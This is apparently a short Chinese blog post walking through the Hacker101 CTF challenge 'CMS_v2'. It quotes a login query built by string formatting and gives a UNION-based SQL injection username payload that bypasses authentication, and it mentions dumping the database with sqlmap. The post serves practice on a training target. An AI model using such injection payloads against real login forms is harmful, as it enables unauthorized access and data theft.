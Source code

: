 ```yaml
---
layout: post
title:  "CMS_v2"
subtitle: "hacker101"
date:   2020-03-23 23：14
categories: [Pentest]
---
```

# CMS_v2

[https://ctf.hacker101.com/ctf/launch/3](https://ctf.hacker101.com/ctf/launch/3)

* * *

## Flag 1

`if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:`

cur.execute:python执行数据库操作

数据库语句:

`SELECT password FROM admins WHERE username=\'%s\'`

> 查询password

字符处理

`request.form['username'].replace('%', '%%')`

> 用%%替代%处理username然后传入参数值

判断条件是

`cur.execute == 0`

username

`admin'and '1'='2' union select 0 from admins`

password

`0`

## Flag 2

get--> post

# Flag 3

flag1 是 password，但是username在哪里还没有找到

sqlmap直接把数据库dump出来，简单粗暴
